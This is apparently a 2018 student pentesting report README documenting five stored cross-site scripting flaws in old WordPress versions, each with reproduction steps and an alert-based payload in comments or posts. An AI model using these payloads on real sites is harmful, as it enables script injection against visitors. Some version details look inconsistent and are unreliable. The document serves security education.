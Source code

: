 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: <= 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/7zN9982.gif)
  - [ ] Steps to recreate: 
    - Go to a Word Press post and locate the comment section.
    - Post the code below into the comment section.
    - Replace <insert 64kb of random data> with any 64kb worth of charatcters. You can use Notepad to help generate those characters.
    - Click "POST COMMENT".
  - [ ] Affected source code:
    ```
    <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>
    ```

2. (Required) 4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0-4.7.2
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/6nlr080.gif)
  - [ ] Steps to recreate: 
    - Post a new post or create a new post on word Press
    - Fill in title section, and place the code below into the "Text" section.
    - Click "Update" or "Publish" tab.
    - Click "View Post".
  - [ ] Affected source code:
    ```
    <iframe width="560" height="315" src="https://www.youtube.com/embed/kNKu1uNBVkU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen onload=alert(0123)></iframe>
    ```

3. (Required) 4.1 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.1
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/u9MgHuF.gif)
  - [ ] Steps to recreate:
    - Post a new post or create a new post on word Press
    - Fill in title section, and place the code below into the "Text" section.
    - Click "Update" or "Publish" tab.
    - Click "View Post".
    - Move cursor to the linked text.
  - [ ] Affected source code:
    ```
    <a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">A very safe link</a>
    ```

4. (Optional) 4.0 - Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/wSmthE1.gif)
  - [ ] Steps to recreate: 
    - Post a new post or create a new post on word Press
    - Fill in title section, and place the code below into the "Text" section.
    - Click "Update" or "Publish" tab.
    - Click "View Post".
    - Move cursor to the linked text and click.
  - [ ] Affected source code:
    ```
    <a href="[caption code=">]</a><a title=" onclick=alert('XSS!')  ">A very safe link</a>
    ```

5. (Optional) 4.5.1 - Pupload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.5.1
    - Fixed in version: 4.7
  - [ ] GIF Walkthrough: ![](https://i.imgur.com/DhYxTEY.gif)
  - [ ] Steps to recreate:
    - Go to a Word Press post and locate the comment section.
    - Post the code below into the comment section.
    - Click "POST COMMENT".
    - Find the comment and click on the "CLICK" button.
  - [ ] Affected source code:
    ```
    <button onclick="fire()">Click</button>
    <script>
    function fire() {
    open('javascript:alert(0123)');
    }
    </script>
    ```

## Assets

None

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

None

## License

    Copyright [2018] [Chenjun Liu]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
